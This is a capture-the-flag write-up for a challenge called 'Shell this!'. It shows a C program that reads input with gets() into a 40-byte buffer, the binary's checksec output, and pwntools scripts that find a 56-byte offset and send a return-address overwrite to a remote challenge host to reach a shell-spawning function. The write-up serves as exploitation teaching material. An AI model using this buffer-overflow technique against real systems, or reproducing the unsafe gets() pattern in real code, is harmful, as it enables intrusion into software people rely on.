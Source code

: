# Challenge Name : Shell this!

## Description : 

Somebody told me that this program is vulnerable to something called remote code execution?

I'm not entirely sure what that is, but could you please figure it out for me?

## Anaylsis of the code and binary

Along with the binary, the source code was also provided. It looked something like this : 

```
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor))
void setup() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void get_shell() {
    execve("/bin/sh", NULL, NULL);
}

void vuln() {
    char name[40];

    printf("Please tell me your name: ");
    gets(name);
}

int main(void) {
    printf("Welcome! Can you figure out how to get this program to give you a shell?\n");
    vuln();
    printf("Unfortunately, you did not win. Please try again another time!\n");
}
```

Upon using checksec on the binary provided we get the following : 

```
   Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

Here NX is enabled, which means we cannot execute our own shellcode, we need to execute from the program itself.

There is a buffer size of 40 bytes and a function which calls the `/bin/sh`. 


## Bug in the program

There is a buffer overflow vulnerability in this program since the `gets` function is used. So we can overflow the buffer and redirect code execution to the `get_shell()` function, which in turn will give us the shell.

The offset of the buffer can be found using a cyclic pattern.

```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
sh = gdb.debug("./shellthis")
padding = cyclic(60)
sh.sendlineafter("name: ",padding)
sh.interactive()
```

The offset will be 56. After this we can make our exploit


## Final Exploit

```
from pwn import *

context.terminal = ["tmux", "splitw", "-v"]
context.log_level = 'DEBUG'
#for local
#sh = gdb.debug("./shellthis")
#for remote
sh = remote("chal.duc.tf", 30002)
shell = p64(0x004006ca)
padding = b'a'*56
payload = padding + shell
sh.sendlineafter("name: ",payload)
sh.interactive()
```

